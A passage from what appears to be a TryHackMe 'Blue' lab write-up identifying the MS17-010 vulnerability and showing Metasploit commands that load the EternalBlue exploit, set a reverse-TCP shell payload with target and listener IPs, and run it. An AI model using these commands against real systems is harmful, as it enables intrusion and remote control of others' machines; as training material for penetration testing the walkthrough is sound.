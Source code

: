 **Answer: `MS17-010`**

<br>

---

<br>

## 2. Gain Access 

Exploit the machine and gain a foothold.

<br>

### 2.1 Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/........)

![rapid](/assets/img/tryhackme/blue/rapid.png)

Now, let's apply them to ourselves.

```
$ msfconsole
msf6 > use exploit/windows/smb/ms17_010_eternalblue
msf6 > show targets
msf6 > set target 1
msf6 > set payload windows/x64/shell/reverse_tcp
msf6 > show options
msf6 > set RHOSTS 10.10.173.132
msf6 > set LHOST 10.8.86.168
msf6 > exploit
```
